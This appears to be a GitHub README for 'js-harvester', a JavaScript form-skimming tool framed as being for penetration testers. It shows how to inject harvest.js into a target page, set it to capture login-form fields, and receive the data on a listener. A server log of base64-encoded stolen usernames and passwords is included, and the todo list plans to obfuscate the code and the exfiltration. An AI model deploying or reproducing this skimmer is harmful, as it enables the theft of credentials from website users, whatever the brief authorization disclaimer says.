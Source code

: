# js-harvester
A tool for pen testers to use in an engagement where data must be captured from a web form.
> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access. 
# installation
* Requires jQuery
* Download and host script
# usage
1. Identify target page to harvest data from
3. Add harvest.js to the target page
```
<script type="text/javascript" src="harvest.js"></script>
```
4. Run a HTTP or HTTPS service to receive data from the script
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
6. Update the settings in harvest.js
```
//var siteId = "updateme";
//var formId = "updateme";
var bindAllFormsSwitch = true;
var formName = "loginform2";
var enableEncoding = true;
var usePost = false;
var _0x3745 = ["http","://","127.0.0.1","/harvest.php","Content-type","application/x-www-form-urlencoded","GET","POST","HEAD","PUT","DELETE","OPTIONS","PATCH"];
```
5. Listen. . .
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.1.211 - - [14/Sep/2024 18:39:22] "GET /harvest?data=dXNlcm5hbWU6cGV0ZXImcGFzc3dvcmQ6d2VpbmVyJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:27] "GET /harvest?data=dXNlcm5hbWU6YWRtaW4mcGFzc3dvcmQ6YWRtaW4mc2l0ZUlkOk1Ua3lMakUyT0M0eExqSXpOdz09JmZvcm1JZDpMMnB6YUdGeWRtVnpkQzlzYjJkcGJpMW1iM0p0TG1oMGJXd3RiRzluYVc1bWIzSnQ= HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:33] "GET /harvest?data=dXNlcm5hbWU6Z2VvcmdlJnBhc3N3b3JkOmJ1cm5zJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                                                                                                                                       
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ 
```

# todo list
* ~~dynamic form binding and processing~~
* ~~support for exfiltration through configurable HTTP methods~~
* ~~use hash values to identify site and form IDs~~
* ~~ability to bind multiple forms dynamically~~
* code obfuscation
* obfuscation for data exfiltration
* remove jQuery dependencies
